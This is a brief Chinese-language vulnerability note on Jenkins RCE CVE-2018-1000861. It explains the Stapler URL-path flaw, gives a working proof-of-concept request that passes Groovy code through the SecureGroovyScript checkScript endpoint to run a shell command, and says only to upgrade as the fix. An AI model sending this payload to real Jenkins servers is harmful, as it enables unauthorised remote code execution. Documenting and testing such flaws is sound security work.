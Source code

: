 ### 一 漏洞名
Jenkins RCE CVE-2018-1000861

### 二 漏洞描述
Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

### 三 漏洞利用
```angular2html
http://192.168.198.132:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```

### 四 漏洞修复
升级
